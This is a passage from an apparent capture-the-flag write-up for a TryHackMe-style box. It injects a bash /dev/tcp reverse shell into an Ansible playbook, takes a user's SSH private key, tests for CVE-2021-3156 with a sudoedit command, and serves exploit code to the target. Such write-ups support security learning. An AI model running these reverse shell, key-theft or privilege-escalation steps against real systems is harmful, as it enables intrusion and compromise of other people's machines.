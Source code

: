 Take a look at the contents of this playbook and you will see the username is Bismuth and under the Tasks a command that runs `whoami`. This is the Linux `whoami` and If we modify this we should be able to inject a reverse shell payload to call back to our Kali box. Let's give it a go!  Change the `whoami` to `bash -c 'exec bash -i &>dev/tcp/10.11.0.200/9001 <&1'` and submit the changes.

![Edit Playbook](/img/catpictures2/modified_playbook.png "Modified Playbook with Reverse Shell")

Start your listener on your Kali box to receive the call back from the playbook injected reverse shell.

![PWNCAT Listener](/img/catpictures2/pwncat.png "Pwncat Listener")

Next browse to http://10.10.186.186:1337/ and click 'Run Ansible Playbook' to start the playbook and our reverse shell.
![Run Ansible Playbook](/img/catpictures2/runansible.png "Run Ansible Playbook")

### Foothold

After running the Ansible Playbook you have received your reverse shell. 

**Reverse Shell Foothold**

![Rev Shell](/img/catpictures2/revshell.png "Reverse Shell Established")

Change directory to `/home/bismuth` and list the contents bismuth's home folder. Flag2.txt  can be seen in the home folder. Retrieve the flag and submit to Try Hack Me.

![Flag 2](/img/catpictures2/flag2.png " Flag 2 File Found")

Listing the contents off .ssh in the home folder we can see an **id_rsa** file that we should download and use for a more stable shell on the box.
![ID RSA](/img/catpictures2/idrsa.png "Download 'id_rsa' File for User Bismuth")

Now `chmod 600 id_rsa` and `ssh -i id_rsa bismuth@10.10.186.186` to establish a true shell with ssh. This gives us a more stable environment to work from.

![Bismuth SSH](/img/catpictures2/bismuthssh.png "SSH As Bismuth")

I tried the usual manual enumeration methods here but did not find anything, so I uploaded and ran LinPEAS.  LinPEAS discovered a few CVE's but one that looked promising was CVE-2021-3156. To test the box was vulnerable you can run the following command `sudoedit -s '\' $(python3 -c 'print("A"*1000)')` and if you receive a 'malloc' error then the box is vulnerable.

![Check Vulnerability](/img/catpictures2/cve_test.png "Check if Vulnerable")

Searching Google we can find the following exploit https://github.com/CptGibbon/CVE-2021-3156.  Download exploit c code and upload to the box.  We need to upload the c files and compile on the target so it will match the dependencies (usually Libc) of the target box.

Host the source code for the exploit on your Kali box with python3 web server.

```sh
webup # my alias for python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.156.208 - - [02/Jul/2023 12:29:22] "GET /exploit.c HTTP/1.1" 200 -
10.10.156.208 - - [02/Jul/2023 12:29:35] "GET /shellcode.c HTTP/1.1" 200 -
10.10.156.208 - - [02/Jul/2023 12:29:42] "GET /Makefile HTTP/1.1" 200 -
```
